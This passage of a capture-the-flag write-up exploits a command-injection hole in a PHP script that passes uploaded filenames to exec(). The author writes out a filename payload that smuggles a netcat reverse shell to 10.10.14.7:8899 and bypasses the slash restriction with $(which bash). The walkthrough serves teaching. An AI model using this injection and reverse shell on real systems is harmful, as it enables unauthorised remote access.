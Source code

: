 ```

```

As we can see, the "check\_attack.php" script is being run by "guly", and when it finds the "test.txt" file, it removes it. The line that is vulnerable in the script is as follows:

> exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");

This command looks something like the following once the variables have been replaced:

> exec("nohup /bin/rm -f /var/www/html/uploads/test.txt > /dev/null 2>&1 &");

Instead of creating a file called "test.txt", let's create one that will give us a new reverse shell using netcat. First, start a listener, then create the file:

```
bash-4.2$ touch ';nc -e /bin/bash 10.10.14.7 8899;'
touch ';nc -e /bin/bash 10.10.14.7 8899;'
touch: cannot touch ';nc -e /bin/bash 10.10.14.7 8899;': No such file or directory
bash-4.2$ 

```

That didn't work because we cannot use the "/" character in the filename. Check out the following page which contains some very interesting information pertaining to this:

{% embed url="https://unix.stackexchange.com/questions/359810/kernighan-and-pike-challenge-how-to-put-a-slash-in-a-filename" %}

To get around this, we can insert a variable which when read will insert the string "/bin/bash" into the command. To do this, we can use the "which" command as follows.

```
bash-4.2$ which bash
which bash
/usr/bin/bash
bash-4.2$ touch ';nc -e $(which bash) 10.10.14.7 8899;'
touch ';nc -e $(which bash) 10.10.14.7 8899;'
bash-4.2$ ls -la
ls -la
total 24
drwxrwxrwx. 2 root   root    179 Nov 11 12:55 .
drwxr-xr-x. 4 root   root    103 Jul  9  2019 ..
-rw-r--r--  1 apache apache 2207 Nov 11 10:01 10_10_14_7.php.gif
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_1.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_2.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_3.png
-rw-r--r--. 1 root   root   3915 Oct 30  2018 127_0_0_4.png
-rw-rw-rw-  1 apache apache    0 Nov 11 12:55 ;nc -e $(which bash) 10.10.14.7 8899;
-r--r--r--. 1 root   root      2 Oct 30  2018 index.html
bash-4.2$ 

```

Back in the netcat listener, after a few minutes, we get a shell as the "guly" user, and we can grab the user flag.
